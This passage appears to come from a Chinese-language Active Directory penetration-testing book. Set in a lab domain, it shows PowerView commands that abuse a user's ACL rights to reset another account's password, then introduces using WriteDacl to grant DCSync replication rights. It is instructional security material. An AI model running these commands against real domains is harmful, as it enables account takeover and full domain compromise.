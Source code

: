 图 6.17 – tywin.lannister 可以重置 jaime.lannister 用户的密码

以下 PowerView 命令将完成此操作：

```
$username = 'sevenkingdoms\tywin.lannister'
$password= ConvertTo-SecureString 'powerkingftw135' -AsPlainText -Force
$auth = New-Object System.Management.Automation.PSCredential $username, $password
$newpassword = ConvertTo-SecureString 'Qwerty123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'sevenkingdoms\jaime.lannister' -AccountPassword $newpassword -Credential $auth -Verbose
```

结果如下图所示：

![图 6.18 – tywin.lannister 成功重置 jaime.lannister 用户的密码](img/B18964_06_18.jpg)

图 6.18 – tywin.lannister 成功重置 jaime.lannister 用户的密码

最后，我们将看看可以用于完全接管整个域的最强 ACL。

## DCSync

**WriteDacl** 权限可以用于授予 DCSync 权限（**DS-Replication-Get-Changes 和 DS-Replication-Get-Changes-All**）。为了模拟攻击，我使用了 ADSI 编辑并添加了 **jaime.lannister** 的 **修改权限** 和 **写入所有属性** 权限。我们可以使用 PowerView 来确认更改已成功：

```
Find-InterestingDomainAcl | ?{$_.IdentityReferenceName -eq 'jaime.lannister'}
```

命令的结果如以下截图所示：

![图 6.19 – jaime.lannister 用户具有对域对象的 WriteDacl 权限](img/B18964_06_19.jpg)
